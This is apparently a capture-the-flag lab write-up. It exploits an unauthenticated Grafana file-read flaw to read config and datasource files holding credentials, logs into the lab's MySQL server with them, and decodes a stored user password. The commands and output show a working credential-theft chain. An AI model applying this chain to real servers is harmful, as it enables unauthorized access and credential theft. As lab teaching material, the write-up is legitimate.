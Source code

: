 Do some googling of the Grafana version and see that there is an unauthenticated CVE for reading arbitrary files on the server.
![[Pasted image 20221025184823.png]]
This allows for reading the Grafana config file @ ```/etc/grafana/grafana.ini``` where credentials for Grafana are found:
![[Pasted image 20221025185018.png]]
Authenticate to Grafana and poke around for a bit until finding the "Data Sources" page.
![[Pasted image 20221025185614.png]]
After doing some research about the yaml file seen above I found where it (most likely) resided on the server: ```/etc/grafana/provisioning/datasources/mysql.yaml```
![[Pasted image 20221025185827.png]]
SQL creds! Remember how port 3306 (SQL's default port btw) was listening from the Nmap earlier? Try authenticating to the server remotely with these new creds
```bash
$ mysql -u grafana -p -h 10.10.11.183      
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 80
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.038 sec)
```
Check out the last db listed above (whackywidget) and find some creds for the developer user
```sql
MySQL [(none)]> use whackywidget; select * from users;

Database changed
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.038 sec)
```
Decode the pass value to get: ```anEnglishManInNewYork027468```